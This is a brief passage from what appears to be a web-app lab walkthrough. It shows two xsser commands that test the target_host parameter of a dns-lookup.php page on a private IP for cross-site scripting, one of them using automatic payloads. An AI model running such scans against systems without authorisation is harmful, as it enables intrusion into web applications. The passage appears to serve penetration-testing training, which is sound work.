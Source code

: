- Use **`xsser`** to check the vulnerability

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

![xsser](1-webapp-httpassets/image-20230504234542520.png)

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```
